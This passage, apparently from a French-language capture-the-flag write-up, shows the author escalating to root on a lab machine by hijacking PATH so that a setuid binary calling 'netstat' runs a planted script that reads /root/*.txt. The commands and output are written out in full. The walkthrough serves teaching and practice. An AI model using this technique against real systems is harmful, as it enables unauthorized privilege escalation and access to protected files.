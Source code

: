 On trouve les chaines de caractères propres au binaire ainsi que les imports au début du fichier, c'est souvent suffisant pour comprendre ce que l'exécutable fait :

```console
blackjax@nitin:~$ strings /usr/bin/netscan 
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
setuid
system
setgid
__libc_start_main
__gmon_start__
GLIBC_2.0
PTRh
QVhk
UWVS
t$,U
[^_]
netstat -antp
--- snip ---
```

Visiblement, il appelle `setuid` + `setgid` et `system("netstat -antp")`. On est donc sur de l'exploitation très classique décrite de nombreuses fois sur le présent blog.

Je place dans le `PATH` un programme nommé `netstat` qui sera exécuté à la place de celui attendu :

```console
blackjax@nitin:/tmp$ echo -e '#!/bin/bash\ncat /root/*.txt' > netstat
blackjax@nitin:/tmp$ chmod +x netstat 
blackjax@nitin:/tmp$ PATH=.:$PATH netscan 
    ____  ____  ____  ______   ________    ___   ______
   / __ \/ __ \/ __ \/_  __/  / ____/ /   /   | / ____/
  / /_/ / / / / / / / / /    / /_  / /   / /| |/ / __  
 / _, _/ /_/ / /_/ / / /    / __/ / /___/ ___ / /_/ /  
/_/ |_|\____/\____/ /_/____/_/   /_____/_/  |_\____/   
                     /_____/                           
Conguratulation..

MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b

Author : Rahul Gehlaut

Contact : https://www.linkedin.com/in/rahulgehlaut/

WebSite : jameshacker.me
```

## Parcours touristique

Le chemin attendu était qu'on accède à un partage nommé `smb` qui, comme on a pu le voir (ou pas justement), n'est pas listé.
